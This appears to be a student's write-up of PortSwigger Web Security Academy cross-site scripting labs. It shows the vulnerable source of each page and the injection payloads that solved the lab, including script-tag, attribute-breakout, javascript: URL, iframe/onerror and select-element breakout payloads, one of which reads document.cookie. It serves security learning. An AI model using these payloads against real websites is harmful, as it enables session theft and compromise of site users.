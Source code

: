 # Cross-site scripting (XSS)

See detatail at [here](https://portswigger.net/web-security/cross-site-scripting)

Cheatsheet at [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

Type of XSS attack in example:
 - [Reflected XSS](#reflected-xss)
 - [Stored XSS](#stored-xss)
 - [DOM-based XSS](#dom-based-xss)

## Reflected XSS

Get deteail at [here](https://portswigger.net/web-security/cross-site-scripting/reflected)

[Lab 1](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

Description of this lab: perform a cross-site scripting attack that calls the alert function

Typing `<script>alert()</script>` into search bar to call alert function, then solved the lab.

[Lab 7](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

Description of this lab: vulnerability in the search blog, injects an attribute and calls the alert function.

Try to find somthing with search bar, and check source code, we can found `<input type="text" placeholder="Search the blog..." name="search" value="test">`. Check at [here](https://portswigger.net/support/exploiting-xss-injecting-into-tag-attributes), we will use `" onload="alert()` but it was not worked because this tag is can not be loaded, so replace it to `onmouseover`. The final payload is `" onmouseover="alert()`, then drag mouse to search bar and solved the lab.

[Lab 9](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

Description of this lab: To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function in the search query tracking functionality.

Try to type something into search bar, and check the code

````html
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');             
    </script>

    <img src="/resources/images/tracker.gif?searchTerms=test">
    
````

Exploit function `encodeURIComponent` with this [post](https://security.stackexchange.com/questions/66252/encodeuricomponent-in-a-unquoted-html-attribute). Unquoted attributes can be broken out of with many characters, including `[space] % * + , - / ; < = > ^ and |`. The final payload `'/alert()/'`.

## Stored XSS

Get detail at [here](https://portswigger.net/web-security/cross-site-scripting/stored)

[Lab 2](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

Description of this lab: submit a comment that calls the alert function when the blog post is viewed.

Type `<script>alert()</script>` into content of comment box at any post, then solved the lab.

[Lab 8](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

Description of this lab: To solve this lab, submit a comment that calls the alert function when the comment author name is clicked (when user have own website).

We can use same technique of **lab 5**. Post a comment with `javascript:alert()` in website field, then solve the lab.

## DOM-based XSS

Get detail at [here](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Lab 3](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

Description of this lab: perform a cross-site scripting attack that calls the alert function using document.write

Check how website work, look at the source:
```js
    <script>
        function trackSearch(query) {
            document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
        }
        var query = (new URLSearchParams(window.location.search)).get('search');
        if(query) {
            trackSearch(query);
        }
    </script>
```

We use document.write to insert plain HTML into the DOM (which opens the door for DOM XSS attacks). Moreover, if query is successful, website will load svg image. Type `"><svg onload=alert()>` (it will be triggered when svg load) into search bar, then solved the lab.

[Lab 4](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

This lab has the same description as the previous one but using innerHTML

Check how website work, look at the source:
```js
    
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
                        
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
                        
```

Try to find cheatsheet with keyword `innerHTML` and found this:
```js
    '<img/src/onerror=alert(1)>';</script>
```
The mechanic of this payload like this: here is sample js 
```js
    <script>
    ...
    </script>
```

After we insert payload, it become:
```js
    <script>
        '<img/src/onerror=alert(1)>';
        </script> /*this is the end of script and script will be triggered when img load error*/
    </script>

```

Type this one into search bar and solved the lab.

[Lab 5](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

Description of this lab: make the "back" link alert document.cookie using anchor href attribute

In this lab, website includes submit feedback, when try to submit form, url was change like this `example.com/feedback?returnPath=/post`, it seems to "back" to previous post. We can found the source of this:
```js
    $(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
                        
```

Check the cheatsheet, the final payload is `/feedback?returnPath=javascript:alert(document.cookie)`

[Lab 6](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

Description of this lab: deliver an exploit to the victim that calls the print() function in their browser.

In this lab, we got exploit server, using this for sending exploit to victim. Finding in cheatsheet with keyword `print()`, we can found `<img src=x onerror=print()>` (meaning: trigger when load error). However, in this exploit server, there is no place for victim's url, so we need to modify payload, we can mix with `iframe` and `onload`. The final payload `<iframe src="example.com/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`, send it to victim and solved the lab.

[Lab 10](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

Description of this lab: perform a cross-site scripting attack that breaks out of the select element and calls the alert function in the stock checker functionality.

Open detail of any product, at the end of the page, it has `Check stock`. When user click button, website will check available stocks in specific location. Check the code

```html
    <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');

        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }

        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
                continue;
            }
            document.write('<option>'+stores[i]+'</option>');
        }
        document.write('</select>');
    </script>
```

Moreover, we can modify url parameter to send value of storeId to server and we can exploit variable `store`. The final payload `product?productId=1&storeId="></select><img src=1 onerror=alert()>` and the lab will be solved.

The code after use payload
```html
    ...
    <select name="storeId"> ... </select>
    <img src="1" onerror="alert()"> /* this code is injected into source */
    <option>London</option>
    ...
```






